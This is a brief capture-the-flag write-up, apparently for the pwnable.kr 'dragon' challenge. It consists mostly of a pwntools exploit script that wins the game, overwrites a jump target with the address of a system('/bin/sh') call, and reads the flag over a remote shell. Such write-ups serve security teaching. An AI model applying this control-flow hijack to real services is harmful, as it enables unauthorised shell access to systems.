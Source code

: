 Optimal way to win the game is this sequence of moves:
```python
optimal = [1,1,1,1,3,3,2,3,3,2,3,3,2,3,3,2]
```

After we win, we will be able to jump to the address we want.
In the binary, we find:
```
0x08048DBF    C704245C9304   mov dword [esp], str._bin_sh
0x08048DC6    E865F7FFFF     call sym.imp.system
```

```python
from pwn import *
elf = ELF("dragon")

binsh_str = list(elf.search("/bin/sh"))[0]
binsh_instr = list(elf.search(asm("mov dword ptr [esp], "+str(binsh_str))))[0]

payload = p32(binsh_instr)

shell = remote("pwnable.kr", 9004)
```
Win the game:
```python
for move in optimal: 
    shell.sendline(str(move))
```
And go to shell.
```python
shell.sendline(payload)
shell.sendline("cat flag")

shell.interactive()
```
